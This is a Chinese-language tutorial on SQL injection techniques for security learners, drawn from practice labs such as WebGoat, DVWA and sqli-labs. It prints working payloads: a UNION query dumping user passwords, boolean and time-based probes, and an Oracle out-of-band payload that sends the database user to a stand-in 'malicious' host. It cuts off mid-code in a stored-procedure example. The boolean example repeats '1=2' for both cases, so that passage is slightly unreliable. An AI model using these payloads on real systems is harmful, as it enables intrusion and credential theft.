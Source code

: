 攻击SQL注入的攻击技术，可以分为 Union型注入，Boolean型注入，Error-based型注入，Out-of-band型注入，Time delay型注入, 字符型注入，数字型注入

在做SQL注入测试前，首先尝试探测SQL服务器的型号和版本信息，可以用nmap尝试去扫描，或者是输入非法的字符让SQL语句执行报错，根据错误信息判断SQL服务器的型号和版本。

#### UNION型注入
下面例子是常规的UNION注入，取自WEBGOAT靶机，正常的操作是输入一个用户名，服务器会返回该用户名的userid，username，password等字段信息

但是如果输入以下的用户名，就可以获取所有用户的用户名和密码，当前利用该漏洞是有前提的，那就是你清楚每个字段的类型以及表名user_system_data
```
omar' UNION SELECT 1,user_name,password,'1','1','1',1 FROM user_system_data --
```

#### 布尔型注入
如果攻击者进行SQL注入，服务器返回的信息有两种状态，那么就属于布尔型注入。

根据DVWA的例子，根据userid判断用户是否存在，比如输入1返回用户存在，输入5返回用户不存在。这种场景下，如果输入1' and 1=2 # 返回用户不存在，而输入1' and 1=2 # 返回用户存在，则这里是一个布尔型注入的注入点。
```
1' and 1=1 #
```

#### 带外SQL注入
前面有简单提到Out-of-band注入，简单来说，如果后端通过其他通道返回信息，则认为是带外(Out-of-band)。

比如下面的例子，如果malicious站点能收到访问请求，则表明存在带外SQL注入(UTL_HTTP仅适用于Oracle)
```
https://store.h4cker.org/buyme.php?id=8||UTL_HTTP.request('malicious.h4cker.org')||(SELECT user FROM DUAL)--
```

#### 基于时间型注入
极端情况下的盲注就是无论输入什么数据，返回的信息都一样，而且不存在带外注入，这种情况下，就需要基于时间的SQL注入来测试。

基于时间的基本思路是如果SQL语句被执行，则sleep固定时间比如2.5秒，如果服务器返回时间延迟了2.5秒，说明SQL执行成功，可以说time-based型SQL注入是SQL注入测试的底线，如果这个都测不出来，基本认为不存在SQL注入漏洞。

下面的例子中，注入语句表述为如果版本信息是8开头，则sleep 10秒，也就是当目标系统的sql版本为8开头，则response要10秒后才返回。
```
https://store.h4cker.org/buyme.php?id=8 AND IF(version() like '8%', sleep(10), 'false'))--
```

sqli-labs是很好的练习SQL注入的靶机环境，有兴趣的读者可以搭建起来学习。sqli-labs主页 [https://github.com/Audi-1/sqli-labs](https://github.com/Audi-1/sqli-labs)

#### 存储过程
存储过程（Stored Procedure）是在大型数据库系统中，一组为了完成特定功能的SQL 语句集，它存储在数据库中，一次编译后永久有效，用户通过指定存储过程的名字并给出参数（如果该存储过程带有参数）来执行它。

事实上，不是使用了存储过程就可以防止SQL注入，我们来看一个例子
```
前端
<form method="post" action="injection.php" enctype="multipart/form-data" >
    Username:<input type="text" name="Username" id="Username"/></br>
    Password:<input type="text" name="Password" id="Password"/></br>
    <input type="submit" name="submit" value="Submit" />
</form>

后端
<?php
if(isset($_POST['Username']))
{
    $username = $_POST['Username'];
    $password = $_POST['Password'];

    // Connect to the server.
    ...

    // Execute a parameterized query.
    $params = array($username, $password);
```